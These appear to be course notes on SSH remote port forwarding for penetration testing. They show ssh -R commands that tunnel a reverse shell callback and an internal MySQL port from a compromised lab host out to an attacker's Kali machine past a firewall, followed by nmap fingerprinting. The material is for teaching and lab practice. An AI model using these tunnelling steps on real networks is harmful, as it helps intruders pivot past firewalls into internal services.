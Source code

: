 ### Remote Port Forwarding

##### Remote Port Forwarding example

The target VM #1 machine has an exploit that is triggered by root every minute that executes a basic _reverse shell_. Unfortunately, that shell is trying to connect back to the internal port _5555_ on _127.0.0.1_ on that server, and the server has no tools available to catch this shell. To solve this challenge, forward this reverse shell callback from the remote server to your local machine

```bash
ssh -p 2222 -N -R 192.168.201.52:5555:127.0.0.1:4444 student@192.168.201.52 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"
```

The _remote port forwarding_ feature in SSH can be thought of as the reverse of local port forwarding, in that a port is opened on the _remote_ side of the connection and traffic sent to that port is forwarded to a port on our local machine (the machine initiating the SSH client).

In short, connections to the specified TCP port on the remote host will be forwarded to the specified port on the local machine. 

In this case, we have access to a non-root shell on a Linux client on the internal network. On this compromised machine, we discover that a MySQL server is running on TCP port 3306. Unlike the previous scenario, the firewall is blocking inbound TCP port 22 (SSH) connections, so we can't SSH into this server from our Internet-connected Kali machine.

We can, however, SSH from this server _out_ to our Kali attacking machine, since outbound TCP port 22 is allowed through the firewall. We can leverage SSH remote port forwarding (invoked with ssh -R) to open a port on our Kali machine that forwards traffic to the MySQL port (TCP 3306) on the internal server. All forwarded traffic will traverse the SSH tunnel, right through the firewall.

SSH port forwards can be run as non-root users as long as we only bind unused non-privileged local ports (above 1024).

The ssh command syntax to create this tunnel will include the local IP and port, the remote IP and port, and -R to specify a remote forward:

```
ssh -N -R [bind_address:]port:host:hostport [username@address]
```

In this case, we will ssh out to our Kali machine as the kali user (kali@10.11.0.4), specify no commands (-N), and a remote forward (-R). We will open a listener on TCP port 2221 on our Kali machine (10.11.0.4:2221) and forward connections to the internal Linux machine's TCP port 3306 (127.0.0.1:3306):

```
student@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
kali@10.11.0.4's password: 
```

This will forward all incoming traffic on our Kali system's local port 2221 to port 3306 on the compromised box through an SSH tunnel (TCP 22), allowing us to reach the MySQL port even though it is filtered at the firewall.

![Figure 4: Remote port forwarding diagram](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/port_redirection_and_tunneling/46359c6384d076bf7e8d2954501a6154-port_redirection_and_tunneling_diagram_04.png)

With the tunnel up, we can switch to our Kali machine, validate that TCP port 2221 is listening, and scan the localhost on that port with nmap, which will fingerprint the target’s MySQL service:

```
kali@kali:~$ ss -antp | grep "2221"
LISTEN   0   128    127.0.0.1:2221     0.0.0.0:*      users:(("sshd",pid=2294,fd=9))
LISTEN   0   128      [::1]:2221         [::]:*       users:(("sshd",pid=2294,fd=8))
    
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 2221

Nmap scan report for localhost (127.0.0.1)
Host is up (0.000039s latency).

PORT     STATE SERVICE VERSION
2221/tcp open  mysql   MySQL 5.5.5-10.1.26-MariaDB-0+deb9u1

Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
```

nowing that we can scan the port, we should have no problem interacting with the MySQL service across the SSH tunnel using any of the appropriate Kali-installed tools.